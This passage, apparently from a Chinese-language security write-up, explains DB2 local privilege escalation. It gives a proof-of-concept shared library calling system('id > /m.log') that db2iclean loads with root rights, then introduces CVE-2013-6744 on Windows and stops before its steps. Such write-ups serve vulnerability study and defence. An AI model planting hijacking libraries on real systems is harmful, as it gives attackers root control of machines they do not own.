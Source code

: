 如将下列代码编译为库文件并放在当前目录下：

```

#!cpp

// libdb2ure2.cpp

#include <stdlib.h>

int iGetHostName(char* n, int i)

{

​    system("id > /m.log");

}

$ gcc -shared -o libdb2ure2.so.1 libdb2ure2.cpp

```

使用 db2iadm1 组的普通用户运行 db2iclean 程序：

```

#!sql

<DB2_instance_install_directory>/adm/db2iclean

```

可见此时 euid 为 0，代码以 root 权限运行

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409571660608521.png)

注意：由于 db2iclean 不是公开执行权限，所以攻击者需要使用 db2iadm1 组用户执行，或诱使该组成员在攻击者写入了恶意库文件的目录下执行该程序。

CVE-2013-6744

-------------

CVE-2013-6744 是 DB2 在 windows 平台下的提权漏洞，利用该漏洞将使 windows 普通用户获取到 Administrator 权限

存在漏洞的 DB2 版本：

*   9.5, 9.7 FP9a 之前版本

*   10.1 FP3a 之前版本

*   10.5 FP3a 之前版本

利用该漏洞需要有一个可以连接 DB2 数据库的用户，且该用户具有创建外部例程的权限 (CREATE_EXTERNAL_ROUTINE)

该漏洞原理为：在 Windows 平台特权帐户默认情况下，DB2 服务运行时并不受访问控制检查，这意味着可以通过 CREATE_EXTERNAL_ROUTINE 权限创建一个库文件并且形成调用，从而权限得以提升。

漏洞利用步骤：
